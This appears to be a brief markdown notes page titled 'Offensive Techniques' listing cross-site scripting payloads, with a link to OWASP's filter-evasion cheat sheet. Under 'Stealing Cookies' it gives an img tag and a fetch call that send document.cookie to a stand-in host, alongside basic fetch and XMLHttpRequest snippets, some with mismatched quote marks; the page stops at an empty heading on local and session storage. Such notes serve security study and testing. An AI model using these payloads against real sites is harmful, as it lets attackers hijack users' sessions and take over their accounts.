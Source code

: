 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Offensive Techniques

{% hint style="info" %}
[XSS Filter Evasion Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS\_Filter\_Evasion\_Cheat\_Sheet.html) (OWASP)
{% endhint %}

## Payloads

### Fetch API

```javascript
fetch('http://localhost/endpoint’)
```

### Building Requests

```javascript
XMLHTTP Request:

let xhr = new XMLHttpRequest()

xhr.open('GET','http://localhost/endpoint',true)

xhr.send('email=update@email.com’)
```

### Stealing Cookies

```javascript
<img src="http://localhost?c='+document.cookie+'" />

fetch("http://localhost?c="+document.cookie);
```

### Accessing Local & Session Storage
